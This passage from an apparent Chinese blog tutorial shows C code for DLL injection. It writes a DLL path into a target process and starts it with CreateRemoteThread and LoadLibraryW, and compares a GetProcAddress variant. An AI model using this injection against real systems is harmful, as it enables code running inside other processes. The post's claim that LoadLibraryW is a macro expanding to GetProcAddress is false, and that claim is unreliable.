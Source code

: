 使用Process Explorer能够看见`malware.dll`已成功被导入：

![](/img/2025-02-21-process-inject/3.png)

Tips：

1. `LoadLibrary`只会加载一次DLL，重复运行程序无法弹出计算器
2. [微软](https://learn.microsoft.com/zh-cn/windows/win32/intl/unicode-in-the-windows-api)Windows API函数中的A和W分别表示ANSI和Unicode(UTF-16)，推荐使用`LoadLibraryW`

```c
    // 3. 写入DLL路径到目标进程内存
	LPCWSTR dllPath = L"C:\\中文路径\\malware.dll";
    size_t pathSize = (wcslen(dllPath) + 1) * sizeof(wchar_t);
    WriteProcessMemory(hProcess, pRemoteMem, dllPath, pathSize, NULL);
	
	// 4. 创建远程线程调用LoadLibraryA加载DLL
    HANDLE hThread = CreateRemoteThread(
        hProcess, 
        NULL, 
        0, 
        (LPTHREAD_START_ROUTINE)LoadLibraryW,
        pRemoteMem, 
        0, 
        NULL
    );
```

发现一些[文章](https://www.cnblogs.com/Xy--1/p/14506866.html)中会存在以下代码：

```c
HMODULE hModule = GetModuleHandle(L"kernel32.dll");
LPTHREAD_START_ROUTINE dwLoadAddr = (LPTHREAD_START_ROUTINE)GetProcAddress(hModule, "LoadLibraryW");
HANDLE hThread = CreateRemoteThread(
    hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)dwLoadAddr,
    pRemoteAddress,
    NULL,
    NULL
);
```

这是将当前进程中 `LoadLibraryW` 的地址传递给目标进程的远程线程。能成功执行的原因是：在 Windows 系统中，核心系统 DLL（如 `kernel32.dll`）的基地址在 **所有进程中通常是相同的**（即使启用了 ASLR）。

然而`LoadLibraryW` 本身就是一个宏，展开后即为 `GetProcAddress` 的调用，所以是完完全全的多此一举。

未完待续……

